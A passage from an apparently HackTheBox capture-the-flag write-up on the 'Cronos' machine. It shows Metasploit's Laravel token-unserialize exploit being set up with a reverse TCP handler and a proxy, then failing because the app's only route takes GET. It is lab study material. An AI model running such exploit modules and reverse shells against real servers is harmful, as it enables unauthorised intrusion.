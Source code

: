     
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    

It’s important to set the option, or the payloads will submit to the wrong vhost.`VHOST`

When I run this, it says it runs, but no shell:

    msf5 exploit(unix/http/laravel_token_unserialize_exec) > run
    
    [*] Started reverse TCP handler on 10.10.14.24:443 
    [*] Exploit completed, but no session was created.
    

I added a proxy (I’ll also need to set ):`ReverseAllowProxy`

    msf5 exploit(unix/http/laravel_token_unserialize_exec) > set proxies http:127.0.0.1:8080
    proxies => http:127.0.0.1:8080
    msf5 exploit(unix/http/laravel_token_unserialize_exec) > set ReverseAllowProxy true
    ReverseAllowProxy => true
    

On re-running it, I see that it’s sending a four HTTP POST requests, each of which is getting a 405 Method Not Allowed response:

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200408133125659.png) 

I tried intercepting these requests, and changing each to a GET. The responses were now 200, but no code execution. It turns out that the exploit only works on a POST request (since the deserialization is in the XSRF token, this makes sense).

I looked a bit more in-depth at the Laravel app, to see if I could find a POST endpoint. The routes are defined in :`/var/www/laravel/routes/web.php`

    <?php
    
    /*
    |--------------------------------------------------------------------------
    | Web Routes
    |--------------------------------------------------------------------------
    |
    | Here is where you can register web routes for your application. These
    | routes are loaded by the RouteServiceProvider within a group which
    | contains the "web" middleware group. Now create something great!
    |
    */
    
    Route::get('/', function () {
        return view('welcome');
    });
    

The only route is , and it only takes GET. That’s the end of this exploit for Cronos as far as I can tell.`/`

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2020/04/14/htb-cronos.html)